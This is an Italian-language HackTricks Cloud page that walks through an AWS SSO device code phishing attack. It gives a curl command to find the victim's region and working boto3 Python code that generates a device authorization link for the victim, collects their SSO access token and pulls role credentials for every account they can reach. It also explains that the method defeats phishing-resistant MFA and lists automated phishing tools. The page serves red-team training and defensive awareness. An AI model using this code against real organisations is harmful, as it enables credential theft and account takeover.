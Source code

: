 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Inizialmente proposto in [**questo post del blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), è possibile inviare un **link** a un utente che utilizza AWS SSO che, se **l'utente accetta**, l'attaccante sarà in grado di ottenere un **token per impersonare l'utente** e accedere a tutti i ruoli a cui l'utente può accedere nel **Identity Center**.

Per eseguire questo attacco, i requisiti sono:

* La vittima deve utilizzare **Identity Center**
* L'attaccante deve conoscere il **sottodominio** utilizzato dalla vittima `<victimsub>.awsapps.com/start`

Solo con le informazioni precedenti, **l'attaccante sarà in grado di inviare un link all'utente** che, se **accettato**, concederà **all'attaccante l'accesso all'account utente AWS**.

### Attacco

1. **Trovare il sottodominio**

Il primo passo dell'attaccante è scoprire il sottodominio che l'azienda vittima sta utilizzando nel loro Identity Center. Questo può essere fatto tramite **OSINT** o **indovinando + BF**, poiché la maggior parte delle aziende utilizzerà il proprio nome o una variazione del proprio nome qui.

Con queste informazioni, è possibile ottenere la regione in cui è stato configurato l'Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genera il link per la vittima e invialo**

Esegui il seguente codice per generare un link di accesso AWS SSO in modo che la vittima possa autenticarsi.\
Per la demo, esegui questo codice in una console python e non uscire, poiché in seguito avrai bisogno di alcuni oggetti per ottenere il token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Invia il link generato alla vittima utilizzando le tue fantastiche abilità di ingegneria sociale!

3. **Aspetta che la vittima lo accetti**

Se la vittima era **già loggata in AWS** dovrà solo accettare di concedere i permessi, se non lo era, dovrà **effettuare il login e poi accettare di concedere i permessi**.\
Questo è come appare il prompt al giorno d'oggi:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Ottieni il token di accesso SSO**

Se la vittima ha accettato il prompt, esegui questo codice per **generare un token SSO impersonando l'utente**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Il token di accesso SSO è **valido per 8h**.

5. **Impersonare l'utente**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing l'MFA "unphishable"

È divertente sapere che il precedente attacco **funziona anche se viene utilizzato un "MFA unphishable" (webAuth)**. Questo perché il **workflow precedente non esce mai dal dominio OAuth utilizzato**. A differenza di altri attacchi di phishing in cui l'utente deve sostituire il dominio di accesso, nel caso il workflow del codice dispositivo è preparato in modo che un **codice sia conosciuto da un dispositivo** e l'utente può accedere anche su una macchina diversa. Se accetta il prompt, il dispositivo, semplicemente **conoscendo il codice iniziale**, sarà in grado di **recuperare le credenziali** per l'utente.

Per ulteriori informazioni su questo [**controlla questo post**](https://mjg59.dreamwidth.org/62175.html).

### Strumenti Automatici

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## Riferimenti

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
